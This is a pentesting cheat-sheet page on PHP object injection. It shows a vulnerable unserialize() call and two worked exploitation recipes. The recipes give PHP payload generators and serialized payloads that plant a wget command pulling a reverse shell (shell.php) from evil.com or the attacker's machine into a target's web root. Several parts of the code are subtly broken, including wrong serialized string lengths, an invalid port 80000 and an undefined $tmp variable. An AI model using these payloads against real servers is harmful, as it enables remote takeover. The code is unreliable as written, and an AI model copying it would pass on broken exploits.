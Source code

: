 ```yaml
---
title: PHP Object Injection
description: PHP Object Injection is a type of vulnerability that can occur when untrusted user input is deserialized in a PHP application.
tags:
    - Web
refs:
    - https://owasp.org/www-community/vulnerabilities/PHP_Object_Injection
    - https://github.com/R0B1NL1N/PayloadsAllTheThings/blob/master/PHP%20serialization/README.md
date: 2023-03-09
draft: false
---
```


## Investigation

Below is an example of an **`index.php`** in PHP web application.

```php
<?php

class Example {

	public $file = 'example.txt';
	public $msg = 'Hello World';
	

	public function SomeFunc() {
		// Some code ...
	}

	public function __destruct() {

		file_put_contents(__DIR__ . '/' . $this->file,$this->msg,FILE_APPEND);
	}

}

$data = unserialize($_GET['data']);

// Some code ...

?>
```

This code adds a text file named **`example.txt`**, that contains **"Hello World"** strings, into the web root directory.  If the **"data"** parameter (**`/?data=...`**) is given, this value will be unserialized by **`unserialize()`** method.  
In short, we can inject the serialized malicious code to the value of the **`data`** parameter.

Then access to **`https://example.com/?data=<serialized_code_here>`** then our arbitrary code will be executed.  
For example,

```sh
http://example.com/?data=O:8:"Example":1:{s:10:"msg";s:15:"<?php system('wget http://evil.com:8000/shell.php -O shell.php'); ?>";}
```

<br />

## Exploitation 1

Assumes the above situation (**”index.php”** in the **“Investigation”** section).  
We generate the serialized data and inject it to the **“data”** parameter.

### 1. Generate a Serialized Malicious Object

Create a malicious **“Example”** class contains **`__destruct()`** method in PHP.  
This script add the **“download.php”**, which downloads a PHP reverse shell script, into the web root directory. Then prints the URL encoded serialized **“Example”** class.

Replace **`<local-ip>`** with your local ip address.

```php
<?php

class Example {

    public $file = 'download.php';
    public $msg = "<?php system('wget http://<local-ip>:8000/shell.php -O shell.php'); ?>";
    

    public function SomeFunc() {
        // Some code ...
    }

    public function __destruct() {

        file_put_contents(__DIR__ . '/' . $this->file,$this->msg,FILE_APPEND);
    }

}

print urlencode(serialize(new Example));

?>
```

Then generate a deserialized data.

```bash
php generate.php
```

Copy the output data.

### 2. Download a Reverse Shell Script.
    
In local machine, start local web server where the PHP reverse shell script located.

```php
python3 -m http.server 80000
```

Now access to `https://example.com/?data=<serialized_data_here>`.  

```txt
http://example.com/?data=O:8:"Example":1:{s:10:"msg";s:15:"<?php system('wget http://evil.com:8000/shell.php -O shell.php'); ?>";}
```

By this, our PHP reverse shell script is download to the target web root (e.g. `https://example.com/shell.php`).

<br />

## Exploitation 2

First off, prepare the reverse shell script (**`shell.php`**) in local machine and start web server.  
Then create a maliciou payload as follow.

```php
<?php

class Example {
    public $tmp = "http://evil.com/shell.php";
    public $imgPath = "./shell.php";

    public function __wakeup() {
        $f = fopen($this->imgPath, "w");
        fwrite($f, file_get_contents($tmp));
        fclose($f);
    }
}

$payload = base64_encode(serialize(new Example));
echo $payload;
?>
```

Now run it in terminal.

```sh
php payload.php
```

Copy the output and paste it to where the payload affects.

<br />

## Automation

[PHPGGC](https://github.com/ambionics/phpggc) is a library of PHP **`unserialize()`** payloads along with a tool to generate them.

```bash
# List all gadeget chains
phpggc -l
```
